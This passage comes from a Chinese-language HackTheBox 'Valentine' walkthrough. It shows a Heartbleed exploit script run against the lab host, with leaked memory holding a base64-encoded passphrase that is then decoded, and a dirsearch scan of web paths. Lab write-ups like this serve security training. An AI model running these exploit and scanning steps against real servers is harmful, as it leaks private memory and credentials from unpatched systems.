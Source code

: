 ```shell
┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ python2 32764.py 10.10.10.79
Trying SSL 3.0...
Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0300, length = 94
 ... received message: type = 22, ver = 0300, length = 885
 ... received message: type = 22, ver = 0300, length = 331
 ... received message: type = 22, ver = 0300, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0300, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 00 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
```

同样，因为信息泄露的不确定性，我们需要多执行几次，以发现所期望的敏感信息。

![image-20230429160817669](/resource/012-Valentine.assets/image-20230429160817669.png)

执行了多次后，发现泄露了如下信息：

```shell
0.0.1/decode.php..Content-Type: application/x-www-form-urlencoded..Content-Length: 42....$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==.
```

对`$text`的值`aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==`进行base64解密

```shell
┌──(xavier㉿kali)-[~]
└─$ echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d
heartbleedbelievethehype
```



## Web扫描

这边decode.php也提示我忘了一个环节：对Web路径的探测，这里补一下

```shell
┌──(xavier㉿kali)-[~]
└─$ dirsearch -e php,html,txt -t 100 -u https://10.10.10.79/ 
Target: https://10.10.10.79/

[16:14:19] Starting: 
[16:15:27] 301 -  310B  - /dev  ->  https://10.10.10.79/dev/  
[16:15:27] 200 -    1KB - /dev/
[16:15:39] 200 -   38B  - /index.php  
```
